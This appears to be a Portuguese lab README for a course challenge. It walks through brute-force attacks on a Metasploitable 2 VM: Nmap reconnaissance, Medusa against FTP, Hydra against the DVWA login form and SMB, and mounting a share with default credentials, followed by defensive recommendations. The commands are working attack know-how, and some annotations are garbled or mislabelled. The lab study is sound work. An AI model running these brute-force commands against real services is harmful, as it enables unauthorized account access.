# Desafio 01 #

<span style="color:#00FF00">VISÃO GERAL</span>   
Simulado de ataques de Brute-Force utilizando ferramentas de ciberseguranca. 

<span style="color:#00FF00">OBJETIVO</span>    
Implementar, documentar e compartilhar um projeto prático que demonstre em ambiente de laboratório controlado, o processo de teste de força bruta contra serviços de autenticação, serviço FTP e SAMBA utilizando ferramentas como: Nmap, Medusa e Hydra.   
O foco é educacional, entender técnicas, limites, métricas e contramedidas.  

<span style="color:#00FF00">CENÁRIO DE LABORATÓRIO</span>  
 HOST DE ORIGEM: Kali Linux, versão 2025.3) em execuçao sobre Maquina Virtualizada ou WSL.  
 ALVO DOS TESTES: Linux Metasploitable 2, versão 2.6.24-16-server, em execução sobre Máquina Virtualizada isolada.    
 ISOLAMENTO DE REDE: Rede interna/privada. Garantir que os testes não impactem terceiros.  

<span style="color:#00FF00">METODOLOGIA</span>    
Preparação do ambiente:  
-- Provisionar Kali e Metasploitable em rede isolada.  
-- Garantir snapshots / backups para restaurar o alvo após os testes.    
  
Reconhecimento (passivo e ativo controlado):  
-- Identificar serviços de autenticação ativos no alvo (Host, FTP, HTTP, SMB) usando métodos de detecção em laboratório.  
-- Registrar portas e versões dos serviços para contextualizar resultados.
  
Planejamento do teste de força bruta:   
-- Definir alvos e credenciais alvo (listas de usuários, dicionários de senha) apenas para uso em laboratório.   
--  Estabelecer limites de taxa e janela de testes para evitar travamento permanente do serviço.
  
Execução (simulada/experimental):     
-- Executar tentativas controladas de autenticação com ferramentas de auditoria.  
-- Monitorar métricas: número de tentativas por segundo, tempo total, erros, logs do servidor e consumo de recursos.  
  
Coleta de evidências:   
-- Capturar logs do atacante e do alvo (quando aplicável), timestamps e resultados agregados.  
-- Registrar qualquer comportamento de defesa automático (ex.: lockout, alertas).
  
Análise:   
-- Interpretar resultados: eficácia do brute-force, fatores que influenciaram a taxa de sucesso e possíveis melhorias de defesa.
  
Mitigação:   
-- Propor e documentar contramedidas: políticas de senha, lockout, rate-limiting, autenticação multifator, monitoramento e alertas.

Considerações éticas e legais:   
-- Apenas ambientes autorizados: Nunca realize ataques fora de ambientes explicitamente autorizados.  
-- Responsabilidade: Documente permissões e mantenha evidências de autorização caso necessário.  
-- Uso educativo: Este desafio destina-se a aprendizado e avaliação de segurança em ambientes controlados.   


## Etapa 1 - Nmap ##
O Nmap (Network Mapper) é uma ferramenta amplamente utilizada para análise, auditoria e mapeamento de redes de computadores.   
Desenvolvido originalmente para fins de segurança, o Nmap permite identificar hosts ativos, detectar portas e serviços em execução, além de coletar informações sobre sistemas operacionais e possíveis vulnerabilidades.  
<span style="color:#00FF00">─$ nmap -h</span>
```bash
-h                      #Ajuda da ferramenta.
```

  
## Etapa 2 - Identificar os hosts ativo dentro do Range de IPs ##
<span style="color:#00FF00">─$ sudo nmap -sn -n -PR -T4 192.168.63.0/24</span>
```bash
-sn                     # Apenas descoberta de hosts (não faz varredura de portas).
 -n                     # Desativa resolução DNS (não tenta converter IPs em nomes).
-PR                     # Usa ARP ping (rápido e confiável em redes Ethernet locais).
-T4                     # Template de tempo agressivo: mais rápido, alerta em redes sensíveis.
192.168.63.0/24         # Faixa de rede local a ser mapeada.
```
   
  
## Etapa 3 - Identificar as portas TCP e UDP delimitadas e abertas do host ##  
<span style="color:#00FF00">sudo nmap -sS -sU -p T:1-1024,U:53,67,69,123,161,389,500,514,520,631,137,138,445,1812,1813,5060,1194,3306 -T4 192.168.63.128</span>
```bash
-sS                             # Stealth scan para portas TCP.
-sU                             # UDP Scan.
-p T:1-1024,U:53,67,...,3306    # Scaneaia um Range de portas TCP e algumas portas UDP. 
-T4                             # Template de tempo agressivo: mais rápido, alerta em redes sensíveis
192.168.63.128                  # Host alvo.
```
   

</br>  

## Etapa 4 - Identificar as definidas portas abertas e mapear as versões dos servicos ##  

<span style="color:#00FF00">─$ sudo nmap -A -sS -sU -p T:21,80,139,445,U:137,138 192.168.63.128
</span>
```bash
-A                              # Varredura completa - Identifica OS, versões, script NSE e roteamento.    
-sS                             # Stealth scan para portas TCP.
-sU                             # UDP Scan.
-p T:21,80,139,445,U:137,138    # Scaneaia um Range de portas TCP e algumas portas UDP. 
192.168.63.128                  # Host alvo.
```

</br>        
 
  
</br>  
  
## Etapa 5 - Criações de wordlists e execução de brute-force em portas 21/FTP ##  
<span style="color:#00FF00">─$ sudo medusa -h 192.168.63.128 -U user.txt -P pass.txt -M ftp -t 3
</span>
```bash
-h 192.168.63.128				# Flag e Host alvo.
-U user.txt						# Flag e arquivo de wordlist de usuários;
-P pass.txt						# Flag para definir a wordlist do campo password/senha.
-M ftp							# Flag modulo para autenticacao em porta 21/FTP.
-t 3							# Flag para permitir conexões simultaneas e acelerar o processo, defina por 3 tentativas paralelas.
```

  🟢 IMPLEMENTAÇÃO 


  🟢 EXECUÇÃO   


  🟢 VALIDAÇÃO  


</br>  

## Etapa 6 - Automatização em combinações de tentativas de brute-force em porta 80/HTTP ##  
<span style="color:#00FF00">─$curl -s http://192.168.63.128/dvwa/login.php</span>  
Acrônimo de Client URL, curl é uma ferramenta de linha de comando usada para transferir dados de ou para um servidor, utilizando diversos protocolos como HTTP, HTTPS, FTP, entre outros.
```bash
-curl  				                    # Verifica a conectividade da URL.
-s					                    # Modo silencioso. Retornará somnte o conteudo HTML do site.
 http://192.168.63.128/dvwa/login.php	# Host Alvo.
```

</br>  
   

<span style="color:#00FF00">http ://192.168.63.128/dvwa/login.php </span>  
Endereço URL que aponta para o servidor HTTP do servidor (host alvo).  
```bash
# Analisar os parametros de POST, necessários para montar a sintaxe do brute-force.
```
  

</br>     
    
<span style="color:#00FF00">─$sudo hydra -L user.txt -P pass.txt 192.168.63.128 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"</span>  
Hydra é uma ferramenta de brute-force usada para testar senhas em serviço de redes.  
```bash
-L user.txt			    # Especifica o arquivo user.txt que contém a wordlist de usuários.
-P pass.txt				# Especifica o arquivo pass.txt que contém a wordlist de senhas.
- http-post-form		# Parametro para force brute em aplicações Web.
	"/dvwa/login.php: \
	username=^USER^&password=^PASS^&Login=Login: \
	Login failed" 		#3 seguimentos de parâmetros separados por dois pontos (:), URL, username e password e indicador da falha.
 http://192.168.63.128/dvwa/login.php
```
     

</br>  
  
<span style="color:#00FF00">http ://192.168.63.128/dvwa/login.php </span>  
Validar os dados coletados pelo hydra.  

  

</br>  

## Etapa 7 - Enumeração e Password Praying em porta 445/SMB no Host alvo   ##  
<span style="color:#00FF00">─$enum4linux -a 192.168.63.128 | tee enum4_output63.128.txt</span>  
Enumeração (ferramenta utilizada na coleta de informações de Sistemas Operacionais via SMB)
```bash
-a                          # Executa todos os scripts e testes (usuarios, grupos,share,        informacoes e outros testes de enumeração).
192.168.63.128              # Host alvo.
|                           # Operador que direciona a saída de um comando para a entrada de outro, permitindo a execução sequencial de comandos para processar dados de forma encadeada.
tee enum4_output63.128.txt  # Lê a entrada padrão e a grava simultaneamente na saída .txt.
```
   

</br>  
    
<span style="color:#00FF00">─$hydra -L user.txt -P pass.txt 192.168.63.128 smb -V</span>  
Hydra é uma ferramenta de brute-force usada para testar senhas em serviço de redes. 
```bash
-L user.txt				        # Especifica o arquivo user.txt que contém a wordlist de usuários.
-P pass.txt						# Especifica o arquivo pass.txt que contém a wordlist de senhas.
192.168.63.128                  # Host alvo.
smb -v                          # Indica o serviço alvo em modo verbose.
```
   
  
</br>  
         
<span style="color:#00FF00">$smbclient -L 192.168.63.128 -U msfadmin</span>   
smbclient 2312323123123312
```bash
-L user.txt				        # Especifica o arquivo user.txt que contém a wordlist de usuários.
192.168.63.128                  # Host alvo.
-U pass.txt						# Especifica o arquivo pass.txt que contém a wordlist de senhas.
```  
<span style="color:#00FF00">$sudo mount -t cifs //192.168.63.128/tmp /tmp/compartilhamento/ -o username=msfadmin,password=msfadmin,vers=1.0</span>  
mount  123123231231233123
```bash
-t cifs  				                        # Especifica o tipo de sistema de arquivos.
-//192.168.63.128/tmp   		                # Caminho do compartilhamento remoto a se montar.
/tmp/compartilhamento/                          # Ponto de montagem local no seu Linux.
-o username=msfadmin,password=msfadmin,vers=1.0 # -o opcao de montagem, usuario, senha e versao do SMB.
```  
   


## RECOMENDAÇÕES FINAIS
Em um cenário cada vez mais conectado e vulnerável a ataques cibernéticos, a implementação de medidas de segurança eficientes é essencial para proteger sistemas, dados e usuários. A segurança da informação deve abranger múltiplas camadas, combinando autenticação robusta, proteção da rede, atualização constante de softwares e monitoramento contínuo. Além disso, práticas regulares de auditoria e revisão ajudam a identificar vulnerabilidades antes que sejam exploradas.  

Os seguintes princípios representam as práticas recomendadas para fortalecer a segurança de qualquer ambiente de TI:
- Autenticação forte – Uso de senhas complexas aliadas à autenticação multifator (MFA) para garantir que apenas usuários autorizados tenham acesso.
- Redução de exposição – Minimização de riscos através do fechamento de portas não utilizadas, filtragem de IPs e bloqueio de ICMP desnecessário.
- Atualização constante – Manutenção de softwares e sistemas sempre atualizados para corrigir vulnerabilidades conhecidas.
- Monitoramento ativo – Análise contínua de logs, alertas em tempo real e detecção de atividades anômalas.
